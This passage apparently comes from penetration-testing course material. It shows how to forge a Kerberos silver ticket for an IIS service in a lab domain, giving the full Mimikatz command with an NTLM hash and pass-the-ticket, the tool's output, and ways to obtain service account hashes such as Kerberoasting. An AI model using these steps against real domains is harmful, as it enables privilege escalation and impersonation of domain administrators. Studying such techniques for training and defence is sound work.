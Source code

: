 The SID defining the domain is the entire string except the RID at the end ( `-1103` ).

Now that we have the domain SID, let's try to craft a silver ticket for the IIS service.

> **Note**:
> The SPN password hash can be obtained either through Kerberoasting or if we are a local Administrator on the machine where the SPN (eg iis_service) has an established session, we can use Mimikatz to retrieve the SPN password hash (NTLM hash of iis_service).

The silver ticket command requires an existing domain user (`/user`), domain name (`/domain`), the domain SID (`/sid`), which is highlighted above, the fully qualified host name of the service (`/target`), the service type (`/service:HTTP`), and the password hash of the `iis_service` service account (`/rc4`).
```
mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
User      : offsec
Domain    : corp.com (CORP)
SID       : S-1-5-21-1602875587-2787523311-2599479668
User Id   : 500
Groups Id : \*513 512 520 518 519
ServiceKey: e2b475c11da2a0748290d87aa966c327 - rc4_hmac_nt
Service   : HTTP
Target    : CorpWebServer.corp.com
Lifetime  : 13/02/2018 10.18.42 ; 11/02/2028 10.18.42 ; 11/02/2028 10.18.42
-> Ticket : \*\* Pass The Ticket \*\*

 \* PAC generated
 \* PAC signed
 \* EncTicketPart generated
 \* EncTicketPart encrypted
 \* KrbCred generated

Golden ticket for 'offsec @ corp.com' successfully submitted for current session

mimikatz # kerberos::list

[00000000] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 13/02/2018 10.18.42 ; 11/02/2028 10.18.42 ; 11/02/2028 10.18.42
   Server Name       : HTTP/CorpWebServer.corp.com @ corp.com
   Client Name       : offsec @ corp.com
   Flags 40a00000    : pre_authent ; renewable ; forwardable ;
```
As shown by the output, a new service ticket for the SPN `HTTP/CorpWebServer.corp.com has been loaded into memory and Mimikatz set appropriate group membership permissions in the forged ticket. From the perspective of the IIS application, the current user will be both the built-in local administrator ( *Relative Id: 500* ) and a member of several highly-privileged groups, including the Domain Admins group.

> **Note**:
> To create a silver ticket, we use the password hash and not the cleartext password. If a kerberoast session presented us with the cleartext password, we must hash it before using it to generate a silver ticket.


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname